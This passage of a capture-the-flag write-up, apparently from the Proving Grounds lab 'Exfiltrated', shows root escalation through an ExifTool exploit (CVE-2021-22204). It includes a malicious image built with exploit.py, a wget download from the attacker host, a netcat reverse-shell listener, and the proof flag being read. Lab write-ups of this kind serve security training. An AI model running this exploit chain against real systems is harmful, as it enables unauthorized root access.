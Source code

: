 ```
www-data@exfiltrated:/opt/metadata$ 
```

Okay, we are almost there.
![image](../contentImages/exfiltrated/8.png)

Let's try this one.
```
                                                                                                                                
┌──(hosan㉿kali)-[~/pg/exfiltrated/CVE-2021-22204-exiftool]
└─$ python exploit.py                      
    1 image files updated
                                                                                                                                
┌──(hosan㉿kali)-[~/pg/exfiltrated/CVE-2021-22204-exiftool]
└─$ ls
README.md  configfile  exploit.djvu  exploit.py  image.jpg  image.jpg_original  lab  payload  payload.bzz

```
So I created this malicious image.jpg file, downloaded it, and moved to /uploads folder, and waited calmly:

```
www-data@exfiltrated:/tmp$ wget http://192.168.45.224:8000/image.jpg
wget http://192.168.45.224:8000/image.jpg
--2024-09-07 19:23:54--  http://192.168.45.224:8000/image.jpg
Connecting to 192.168.45.224:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47571 (46K) [image/jpeg]
Saving to: 'image.jpg'

     0K .......... .......... .......... .......... ......    100%  797K=0.06s

2024-09-07 19:23:54 (797 KB/s) - 'image.jpg' saved [47571/47571]

www-data@exfiltrated:/tmp$ ls
ls
image.jpg
jpg.sh
linpeas.sh
pspy64
tmux-33
www-data@exfiltrated:/tmp$ mv image.jpg /var/www/html/subrion/uploads/
mv image.jpg /var/www/html/subrion/uploads/
```

```
┌──(hosan㉿kali)-[~/pg/exfiltrated/CVE-2021-22204-exiftool]
└─$ nc -lvnp 8000        
listening on [any] 8000 ...
connect to [192.168.45.224] from (UNKNOWN) [192.168.157.163] 45380
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/proof.txt
48fd81b4877866fad48bfa0b2987a3ef
```

That's it!

---
## Source

- Proving Grounds
- Me!
